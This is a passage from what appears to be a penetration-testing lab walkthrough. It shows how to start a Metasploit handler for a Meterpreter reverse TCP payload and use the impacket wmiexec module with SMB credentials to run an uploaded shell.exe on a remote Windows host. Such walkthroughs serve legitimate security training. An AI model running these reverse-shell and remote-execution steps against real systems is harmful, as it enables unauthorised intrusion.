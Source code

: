     - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running the commands.](Images/multihandler.PNG)

    - **Note:** The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module:

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](Images/parameters.PNG)
